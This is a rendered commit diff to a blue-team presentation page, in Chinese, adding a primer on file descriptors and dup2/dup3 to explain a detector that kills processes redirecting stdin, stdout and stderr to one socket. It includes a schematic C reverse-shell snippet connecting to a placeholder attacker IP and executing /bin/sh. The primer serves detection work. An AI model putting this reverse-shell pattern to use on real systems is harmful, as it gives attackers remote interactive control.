

Before and after one commit to mickeytony0215-png/Cybersecurity-project, a Markdown page: docs/BLUE_TEAM_PRESENTATION.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
v2.12 docs: add fd/dup2/dup3 reverse-shell primer to S7 backup section

````diff
--- a/docs/BLUE_TEAM_PRESENTATION.md
+++ b/docs/BLUE_TEAM_PRESENTATION.md
@@ -417,6 +417,32 @@
 
 **先記這句核心**：任何 reverse shell 都得把 stdin(0)/stdout(1)/stderr(2) 三個標準 fd 都接到同一條 socket，才拿得到互動式 shell。我們對每個行程記一個 3-bit 的 bitmask，記哪幾個 fd 被 `dup2` 接走，三個全亮（`0x07`）就確認、就殺。**看行為、不看 port。**
 
+#### 底層觀念：fd / `dup2` / `dup3` 與 reverse shell 的關聯（被問到名詞時的完整版）
+
+**fd（file descriptor）是什麼** — Linux 裡每個開啟的檔案／socket／pipe，程式都用一個小整數來指它，叫 file descriptor。三個是固定的標準通道：
+
+- `fd 0 = stdin`（標準輸入，程式從這讀指令）
+- `fd 1 = stdout`（標準輸出，程式往這印結果）
+- `fd 2 = stderr`（標準錯誤）
+
+**`dup2` / `dup3` 做什麼** — 都是「複製 fd」的系統呼叫：
+
+- `dup2(oldfd, newfd)` — 讓 `newfd` 指向跟 `oldfd` 同一個東西（newfd 原本開著的會先關掉）。例：`dup2(sock, 1)` ＝「程式往 stdout 寫的東西，實際上全從那條 socket 送出去」。
+- `dup3(oldfd, newfd, flags)` — 跟 dup2 幾乎一樣，只多一個 `flags` 參數（最常見是 `O_CLOEXEC` ＝ exec 時自動關閉）。
+- ⚠ Python 的 `os.dup2(fd, fd2, inheritable=False)`（這是預設）底層其實是呼叫 `dup3` → 所以 `dup2`/`dup3` 兩個都要掛，不然會漏掉 Python 寫的 reverse shell。
+
+**為什麼 reverse shell 一定要用它** — reverse shell ＝ 受害機主動連回攻擊者、給對方一個「能互動」的 shell。要能互動，攻擊者得能打字進去、看得到輸出 → 必須把 shell 行程的 stdin/stdout/stderr 三個通道全接到那條回連 socket，手段就是 dup2/dup3：
+
+```c
+int s = socket(...); connect(s, 攻擊者IP, ...);   // 連回攻擊者
+dup2(s, 0);   // shell 從 socket 讀指令 ← 攻擊者鍵盤輸入
+dup2(s, 1);   // 輸出寫回 socket       ← 攻擊者看得到
+dup2(s, 2);   // 連錯誤訊息也送回去
+execve("/bin/sh", ...);               // 換成 shell，I/O 已經是網路
+```
+
+四步做完，`/bin/sh` 的輸入輸出就「長」在那條 socket 上，攻擊者那端就拿到一個可互動的命令列。**這就是下面狀態機要抓的行為**：同一行程把 fd 0/1/2 三個都接走 → bitmask 湊滿 `0x07`。
+
 #### 圖①｜bitmask 狀態機（`fig:dup2`：`000 → 001 → 011 → 111 → SIGKILL`）
 
 | 追問 | 一句話回答 |
````
